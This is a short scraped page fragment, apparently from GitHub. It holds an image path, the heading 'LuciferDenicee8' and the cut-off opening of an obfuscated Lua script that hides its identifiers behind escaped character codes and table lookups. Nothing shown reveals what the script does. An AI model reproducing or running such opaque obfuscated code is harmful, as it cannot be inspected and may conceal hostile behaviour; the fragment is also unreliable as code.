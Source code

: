 # LuciferDenicee8
\112"..l['ODaYBRd']]);local X=(e[""..l[O]..l[r]..l[i].."\104"][""..l.wzHwbTT.."\108"..l[s]..l[s].."\114"]);local D=(e…
